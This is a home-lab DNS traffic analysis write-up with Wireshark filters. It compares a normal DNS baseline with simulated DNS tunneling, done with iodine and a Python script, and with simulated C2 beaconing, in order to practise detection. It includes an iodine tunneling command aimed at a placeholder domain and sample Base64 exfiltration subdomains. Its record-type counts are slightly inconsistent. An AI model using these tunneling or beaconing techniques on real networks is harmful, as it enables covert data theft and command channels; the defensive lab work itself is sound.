









# Network Traffic Analysis Lab 3 — DNS Traffic Deep Dive

# Phase 3 — DNS Traffic Deep Dive

**Date completed:** 8th June, 2026

**Tools used:** Wireshark, Iodine, Python 3

**Environment:** Windows Laptop (192.168.1.143), Kali Linux VM (192.168.1.117), Home Router (192.168.1.1)

**Capture files:**
- `lab3_part1_normal_dns.pcapng`
- `lab3_part2_dns_tunneling.pcapng`
- `lab3_part3_dns_beaconing.pcapng`

---

## Investigation Objectives

Map normal internal DNS baselines across multiple record types, simulate malicious data exfiltration via DNS tunneling using two independent tools, model C2 DNS beaconing cadence with configurable jitter, and connect all findings back to the anomalies identified in Phase 1.

---

## Part 1 — Normal DNS Baseline

**Capture:** `lab3_part1_normal_dns.pcapng`

### Queries Generated

The following nslookup commands were run manually on my Windows host alongside regular browser traffic to produce diverse DNS record types in a single capture:

```
nslookup google.com
nslookup github.com
nslookup udemy.com
nslookup microsoft.com
nslookup -type=MX gmail.com
nslookup -type=TXT google.com
nslookup -type=AAAA google.com
nslookup nonexistentdomain12345.com
```

### Record Types Analyzed

**Filter:** `dns`
Focused on Frame 1591 (Request) and Frame 1592 (Response), google.com resolving to `142.251.216.110`.



**Filter:** `dns.qry.type == 1`
Focused on Frame 2153 (Request) and Frame 2156 (Response), github.com resolving to `140.82.121.4`.



**Filter:** `dns.qry.type == 16`
Focused on Frame 3666 (Query) and Frame 3668 (Response),  google.com TXT record returning 13 Answer RRs including SPF policies and domain verification keys.



| Record Type    | Query Example   | Normal Response             | Abnormal Indicator                       |
| -------------- | --------------- | --------------------------- | ---------------------------------------- |
| A (type 1)     | google.com      | Return code 0, IPv4 address | Random subdomains, unusually long labels |
| TXT (type 16)  | google.com      | Domain verification keys    | Base64 strings, encoded binary data      |
| MX (type 15)   | gmail.com       | Mail exchange hostnames     | Non standard domains, dynamic paths      |
| AAAA (type 28) | google.com      | IPv6 address                | Unexpected IPv6 on IPv4 only assets      |
| PTR (type 12)  | reverse lookups | Hostname resolution         | High volume PTR queries for unknown IPs  |

### NXDOMAIN Behavior

**Filter:** `dns.flags.rcode == 3`
Focused on Frame 4081 (Request) and Frame 4091 (Response), `nonexistentdomain12345.com` returned an authoritative NXDOMAIN with return code 3.



A notable additional observation: nslookup on Windows automatically issues both A (type 1) and AAAA (type 28) queries for every domain lookup. This means a single `nslookup google.com` command generates two query response pairs in the capture. This is normal Windows resolver behavior and important baseline context, an analyst counting DNS queries should not double count paired A and AAAA lookups for the same domain.

### Key Baseline Observations

Normal DNS traffic is low volume, human paced, and distributed across many different parent domains. Subdomains are human readable words measuring between 8 and 28 characters. Return codes are either 0 (No Error) or 3 (NXDOMAIN) for mistyped domains. The capture also shows organic application traffic running alongside the manual nslookup queries, Microsoft services, Brave browser sync, Stripe, and Claude.ai all generated DNS lookups automatically. This background traffic is the realistic baseline that makes anomaly detection meaningful: a deviation only means something when you know what normal looks like.

### Additional Finding — claude.ai in the Baseline

Frame 98 and 99 show DNS queries for `claude.ai` resolving to `160.79.104.10`. This reflects the active browser session during the capture. Mentioning this is useful for the portfolio because it shows awareness that baseline captures always contain context about what the machine was doing that context is part of the analysis.

---

## Part 2 — DNS Tunneling Analysis

**Capture:** `lab3_part2_dns_tunneling.pcapng`

### What DNS Tunneling Is and Why It Works

DNS tunneling encapsulates external payloads inside standard DNS queries. Firewalls broadly trust outbound UDP port 53 to preserve core web operations, so encoded data moves through the perimeter without being inspected. All an attacker needs is a domain name they control. Once they have that, the company's own firewall happily delivers the hidden data right to the hacker's doorstep.

### Simulation Method

Two independent tools were used to simulate tunneling behavior, each producing a different traffic signature in the capture:

**Method 1 — Iodine:**
Launched on Kali Linux with:
```bash
sudo iodine -f -r 192.168.1.1 tunnel.test
```
Iodine is a legitimate DNS tunneling tool used in penetration testing. The command attempts to establish a tunnel through the local resolver to the `tunnel.test` domain. Since no authoritative server exists for that domain, the tunnel does not complete, but Iodine still generates its full capability probing sequence in the capture, which is exactly the traffic a defender would see.



**Method 2 — Python script (dns_tunnel_sim.py):**
Executed on Kali, generating subdomain query streams toward `tunnel.test.com`. The script split plaintext payloads into 30 character encoded chunks and issued each chunk as a subdomain query.



### What the Traffic Showed

**Filter:** `dns.qry.name.len > 40`
Focused on Frame 1778 (Request) and Frame 1789 (Response), subdomain `dGhpcmQgcGF5bG9hZCBlbmNvZGVkIG.tunnel.test.com` carrying Base64-encoded data.



The Base64 subdomains in the Python simulation decoded to readable plaintext confirming the simulation accurately represents what a real tunneling tool would carry:

| Captured Subdomain (truncated) | Decoded Content |
|-------------------------------|-----------------|
| `aGVsbG8gdGhpcyBpcyBzaW11bGF0ZW` | "hello this is simulate..." |
| `c2Vjb25kIGNodW5rIG9mIGRhdGEgYm` | "second chunk of data b..." |
| `dGhpcmQgcGF5bG9hZCBlbmNvZGVkIG` | "third payload encoded ..." |

This is data exfiltration plaintext content encoded in Base64 and carried out of the network inside DNS query subdomains.

**Subdomain Length Comparison**

| Traffic Type       | Subdomain Length        | Character Profile                                |
| ------------------ | ----------------------- | ------------------------------------------------ |
| Normal (baseline)  | 8–28 characters         | Human readable words (e.g., brave, google)       |
| Tunneling (Python) | 30–46 characters        | Random characters (e.g., `aGVsbG8gdGhpcyBpcyBz`) |
| Tunneling (Iodine) | 6–8 characters (labels) | Short encoded tokens cycling record types        |

### Iodine Record Type Cycling — A Distinctive Detection Indicator

The most analytically significant finding in this capture was Iodine's record type probing behavior. Starting at Frame 305, Iodine cycled through the following record types in rapid sequential order against the same parent domain:

| Record Type | Type Number | Purpose in Iodine                                   |
| ----------- | ----------- | --------------------------------------------------- |
| NULL        | 10          | Preferred carrier, rarely inspected by firewalls    |
| Private use | 65399       | Alternate encoding channel                          |
| TXT         | 16          | High data capacity 255 bytes per string             |
| CNAME       | 5           | Alias record                                        |
| A           | 1           | Fallback, lowest capacity but universally permitted |

Iodine runs this cycling sequence to discover which record types pass through the firewall uninspected. It then uses the most permissive type for the actual tunnel. Seeing a single host query the same parent domain across all these record types in rapid succession within approximately 1 second  is a strong tunneling indicator.

**Query Volume**

Iodine alone generated 66 queries to `tunnel.test` within a short timestamp window. The Python simulation added 24 additional queries with encoded payloads to `tunnel.test.com`. Combined, the capture shows 90 queries concentrated on a single parent domain versus the distributed, irregular pattern across dozens of domains in Part 1.

### Detection Indicators

- **Subdomain length:** `dns.qry.name.len > 40` isolates the Python tunneling traffic cleanly. Legitimate queries rarely exceed 28 characters in subdomain labels
- **Record type cycling:** A single host querying the same parent domain across NULL, TXT, CNAME, and A record types within 1 second is a near certain tunneling indicator
- **Volume concentration:** 90 queries to one parent domain in a burst versus the distributed baseline is anomalous at first glance in any Conversations or DNS statistics view
- **Random character subdomains:** Character distribution in subdomain labels have no consonant patterns or uniform character spread is visually distinct from human readable domain labels

---

## Part 3 — DNS Beaconing Analysis

**Capture:** `lab3_part3_dns_beaconing.pcapng`

### What Beaconing Is

Malware agents issue periodic, automated DNS queries to attacker controlled authoritative servers to signal availability and receive commands. Unlike human generated traffic which is driven by user activity, beaconing runs on a mathematical schedule independent of anything happening on the host. The DNS query itself is the check-in whether or not a valid response is returned.

### Simulation Method and Interval

Executed `dns_beacon_sim.py` on Kali Linux with the following configuration:

- **Beacon domain:** `c2.beacon.test.com`
- **Interval:** 5 seconds
- **Jitter:** ±1 second (randomised variation per beacon)
- **Script run:** 1 times — capture covers approximately 66 seconds total

The combined capture still produced a clear, measurable beaconing pattern across 66 seconds.

### What the Traffic Showed

**Filter:** `dns.qry.name contains "beacon"`
Focused on Frame 317 (outbound query — `Standard query A c2.beacon.test.com`) and Frame 318 (response — rcode 0, No Error returned by router).



**IO Graph** — filter set to `dns.qry.name contains "beacon"` displayed in red shows evenly spaced spikes firing consistently across the full capture window.



**Measured beacon intervals from Kali (A record queries only):**

| Beacon # | Timestamp (s) | Interval from previous |
|----------|--------------|----------------------|
| 1 | 3.99 | — |
| 2 | 10.32 | 6.33s |
| 3 | 14.79 | 4.47s |
| 4 | 20.19 | 5.40s |
| 5 | 25.69 | 5.50s |
| 6 | 31.73 | 6.04s |
| 7 | 35.98 | 4.25s |
| 8 | 40.16 | 4.18s |
| 9 | 45.40 | 5.24s |
| 10 | 49.84 | 4.44s |
| 11 | 54.64 | 4.80s |
| 12 | 59.72 | 5.08s |

12 beacon queries from Kali over approximately 66 seconds. Average interval: 5.08 seconds. Jitter range observed: 4.18–6.33 seconds, consistent with the ±1 second jitter configured in the script.

**Important finding — beaconing returned rcode 0:**
The router returned rcode 0 (No Error) for every beacon query despite `c2.beacon.test.com` not being a real domain. This occurred because the router resolved the query locally or returned a cached positive response. In a real environment, C2 beacon domains would return actual IP addresses pointing to the attacker's infrastructure. The rcode 0 response here is a lab artifact but it is worth noting: an analyst should not rely on NXDOMAIN responses to identify beaconing. Real C2 domains resolve successfully that is the point.

**Query Pattern Comparison**

| Traffic Type          | Pattern           | Timing Profile                                      |
| --------------------- | ----------------- | --------------------------------------------------- |
| Organic DNS (Part 1)  | Bursty, irregular | Random gaps, driven by user or application activity |
| C2 Beaconing (Part 3) | Uniform heartbeat | Mathematical interval regardless of user activity   |

### Detection Indicators

- **Clock driven regularity:** 12 outbound queries to the same domain over 66 seconds, spaced consistently at 4–6 second intervals. No user activity produces this pattern, it is machine generated by definition
- **IO Graph signature:** Evenly spaced spikes that persist without user activity is the clearest beaconing visual. Organic traffic never produces a flat regular spike pattern
- **Jitter evasion:** The ±1 second jitter shifts check in timestamps to evade fixed interval threshold rules in SIEM platforms. Even with jitter applied, the underlying regularity is visible across a longer observation window
- **Continuous querying of a single domain:** 12 queries to one domain in 66 seconds with no corresponding browsing activity is anomalous against any organic baseline

---

## Part 4 — Connecting to Phase 1 Findings

### sparkchain.ai Retry Loop — Revisited

In Phase 1, `ws-v2.sparkchain.ai` returned a DNS server failure (rcode 2) and the machine immediately retried the query. Viewed through the beaconing framework developed in Part 3, this pattern matches an orphaned beacon, software configured to check in at regular intervals but whose destination infrastructure has gone offline or been taken down. The host keeps querying on schedule because the check in logic is embedded in the application, not driven by a user action. The server failure distinguishes it from a working C2 (which returns rcode 0), but the retry behavior itself is identical to what a beaconing implant would do when its C2 is unreachable.

### telemetry.mainnet.bls.dev — Revisited

The repeated queries to `telemetry.mainnet.bls.dev` with slow response times and a retransmitted DNS response in Phase 1 follow the same machine driven, non human cadence as the beaconing simulation in Part 3. The IO Graph pattern would look similar. What separates it from a malicious beacon is the domain context, bls.dev relates to BLS signature schemes used in Web3 and blockchain validator infrastructure, giving it a plausible business application. However the traffic pattern alone is indistinguishable from beaconing without that context.

### What Additional Context Would Determine Severity

Before escalating either finding, three data points resolve the ambiguity:

1. **Process identification:** Which process on the host is generating the queries? A known installed application with a legitimate business purpose explains the behavior. An unknown process or a process running from a temp directory escalates the finding immediately.

2. **Subdomain entropy analysis:** Do the subdomain labels contain high-entropy Base64 strings or consistent protocol naming? Encoded data in subdomains confirms tunneling. Protocol consistent naming like `telemetry.mainnet` suggests legitimate application telemetry.

3. **Domain registration age and threat intelligence:** Is the parent domain newly registered or does it have years of clean reputation? A domain registered in the past 30 days with no known business affiliation is a strong escalation indicator regardless of traffic pattern.

---

## Key Findings Summary

| Phase | Pattern Identified | Core Metric | Primary Filter |
|-------|-------------------|-------------|----------------|
| Part 1 — Baseline | Normal DNS across 5 record types | 8–28 char subdomains, distributed across many domains | `dns` / `dns.qry.type == 1` / `dns.flags.rcode == 3` |
| Part 2 — Tunneling (Python) | Base64-encoded data in subdomains | 30–46 char subdomains, plaintext data decoded from Base64 | `dns.qry.name.len > 40` |
| Part 2 — Tunneling (Iodine) | Record type cycling probe sequence | 7 record types queried to same domain in ~1 second | `dns.qry.name contains "tunnel"` |
| Part 3 — Beaconing | Clock-driven C2 check-ins | 5.08s avg interval, 12 beacons over 66 seconds, ±1s jitter | `dns.qry.name contains "beacon"` + IO Graph |

---

## SOC Application

DNS is consistently among the most exploited protocols in enterprise environments precisely because it is broadly trusted. The analyst workflow built across this phase applies directly to real triage:

**Tunneling detection** starts with `dns.qry.name.len > 40`. Any subdomain exceeding 40 characters in a production environment warrants immediate review. Pair that observation with Iodine-style record type cycling — a single source querying one parent domain across NULL, TXT, SRV, MX, CNAME, and A types within seconds — and the evidence package is already strong before touching the subdomain content.

**Beaconing detection** starts with the IO Graph. Uniform evenly spaced spikes that persist without user activity are the signature. Fixed-interval SIEM threshold rules catch obvious cases. The IO Graph catches low-and-slow variants with jitter applied, because the regularity is still visible across a longer observation window even when individual intervals vary by a second or two.

**The Phase 1 connection** shows why baseline familiarity is foundational. sparkchain.ai and telemetry.mainnet.bls.dev both produced patterns that this phase's framework would flag. The DNS Deep Dive provides the analytical tools to distinguish an orphaned beacon from an active implant, and legitimate application telemetry from malicious exfiltration.

---

## Skills Demonstrated

- Baseline DNS profiling across A, AAAA, MX, TXT, PTR, and NXDOMAIN record types
- DNS tunneling simulation using Iodine and custom Python scripting
- Subdomain entropy analysis — identifying encoded payloads versus human-readable labels
- Base64 decoding to confirm actual data exfiltration payloads in captured subdomains
- Iodine record type cycling behavior identification and documentation
- DNS beaconing simulation with configurable interval and jitter
- Beacon interval measurement and jitter range calculation from raw timestamps
- IO Graph pattern analysis to distinguish machine-driven from human-driven traffic
- Wireshark filter construction across all three DNS threat categories
- Phase 1 anomaly recontextualisation using the behavioral framework from this phase
- Process-level triage methodology for distinguishing malicious from legitimate automated DNS

